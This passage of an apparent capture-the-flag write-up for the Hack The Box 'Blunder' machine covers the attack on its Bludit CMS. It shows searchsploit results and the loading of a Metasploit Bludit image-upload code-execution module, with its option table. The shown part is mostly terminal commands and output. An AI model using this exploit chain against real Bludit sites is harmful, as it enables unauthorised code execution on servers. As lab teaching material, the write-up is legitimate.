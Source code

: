 ```
╭─twseptian@twsterlab ~/lab/HTB/boxes/blunder 
╰─$ searchsploit bludit
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Bludit - Directory Traversal Image File Upload (Metasploit)                                                                                  | php/remote/47699.rb
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                                                                            | php/webapps/46060.txt
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
╭─twseptian@twsterlab ~/lab/HTB/boxes/blunder 
╰─$ 
```
metasploit provides module for bludit, the information about vulnerability is Directory Traversal Image File Upload. This below, the description from metasploit 

- Bludit Directory Traversal Image File Upload Vulnerability - https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec
![13](/assets/images/htb-machine-blunder/13.png)

```
msf5 > use exploit/linux/http/bludit_upload_images_exec 
msf5 exploit(linux/http/bludit_upload_images_exec) > show options 

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


```